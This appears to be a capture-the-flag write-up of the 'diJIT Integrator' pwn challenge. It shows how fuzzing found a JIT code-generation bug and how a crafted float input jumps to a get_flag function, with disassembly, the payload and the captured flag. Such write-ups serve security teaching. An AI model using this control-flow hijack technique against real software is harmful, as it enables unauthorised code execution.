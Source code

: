 ```yaml
---
layout: post
title: "Graz Security Week 2018: diJIT Integrator"
author: mickdermack
categories: writeup
tags: [cat/pwn, tool/afl, vuln/custom-jit]
---
```


* **Category:** pwn
* **Points:** 150
* **Description:**

> This calculator uses a just-in-time compiler (JIT) to compile the entered function into x86 machine code, allowing fast numeric integration of the function.
>
> What could possibly go wrong when compiling (untrusted) user input and executing it?
>
> Play around at hacklets3.attacking.systems 8006


## Writeup

This year, a few fuzzys were invited to the summer school of Graz Security Week.
One of the people from IAIK hosted a CTF with some really nice challenges, one of
which was the "diJIT Integrator".


## The Challenge

There was one file named "dijit-integrator" attached to the challenge. Running
`file` on it shows that it is a 64-bit x86 ELF binary which hasn't been stripped of
symbols:
```
dijit-plot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, [...], not stripped
```

To find out which mitigations a binary uses, the `checksec` utility can be used,
which promptly revealed that the binary implements Stack Canaries, partial RELRO,
but not ASLR.

When run, the binary asks for an expression and some parameters, and then attempts
to integrate the expression numerically:
```
+-----------------------------------------------+
|     TU Instruments - Numeric Integration      |
+-----------------------------------------------+

Expression: 4*x
From [default: -10]: 
To [default: 10]: 
Step size [default: 1]: 
From: -10.000000 To: 10.000000
Step size: 1.000000

   _
  / ' 10.000000
  |
  |
  |   4*x dx = -40.000000
  |
  |
._/ -10.000000
```


## The JIT

The program implements a Just-in-Time compiler (JIT) for compiling the arithmetic
expression into x86 machine code, which could potentially run much faster than
repeatedly interpreting the expression.

The JIT uses the Shunting Yard algorithm to convert the expression in infix notation
to a postfix form, which is then translated into x86 machine code, using the stack
as an operand stack. For example, the expression `20+x` is compiled into the
following x86 code:
```
   0x3f800000:	pushq  $0x41a00000
   0x3f800005:	push   %rcx
   0x3f800006:	pop    %rax
   0x3f800007:	mov    %eax,(%rbx)
   0x3f800009:	flds   (%rbx)
   0x3f80000b:	pop    %rax
   0x3f80000c:	mov    %eax,(%rbx)
   0x3f80000e:	flds   (%rbx)
   0x3f800010:	faddp  %st,%st(1)
   0x3f800012:	fstps  (%rbx)
   0x3f800014:	pushq  (%rbx)
   0x3f800016:	popq   (%rbx)
   0x3f800018:	retq
   0x3f800019:	retq
```

Because a flawless JIT would make for quite a boring challenge, the JIT contains a
bug.


## The Vulnerability

The [afl fuzzer](http://lcamtuf.coredump.cx/afl/) was used to search for inputs that
crash the program. It took only a few minutes to find the following exploitable bug.

If an expression with two consecutive operators, like `1//2` or `10++20`, is fed
into the JIT, code generation aborts after emitting a `push` of the first operand:
```
   0x3f800000:	pushq  $0x41200000
   0x3f800005:	retq
   0x3f800006:	retq
```

`0x41200000` is the floating point number 10, interpreted as an integer. Because the
number is read from the user and the JIT always emits at least one return
instruction at the end, this can be exploited to jump to an arbitrary address.


## The Attack

Conveniently, the binary contains a `get_flag` function which, when run, outputs the
flag. Its address fits neatly into a 32-bit variable, so it is possible to encode it
as a floating-point number. Python's `struct.pack` and `struct.unpack` can be used
to for that purpose:
```
In [1]: from struct import pack, unpack

In [2]: f = unpack("f", pack("i", 0x6412678C))[0]

In [3]: "{:22f}".format(f)
Out[3]: '10802743893776962420736.000000'
```

Indeed, when an expression like `10802743893776962420736++1` is input, we get the
flag:
```
+-----------------------------------------------+
|     TU Instruments - Numeric Integration      |
+-----------------------------------------------+

Expression: 10802743893776962420736++1
From [default: -10]: 
To [default: 10]: 
Step size [default: 1]: 
From: -10.000000 To: 10.000000
{M4TH_R0CKS}
```
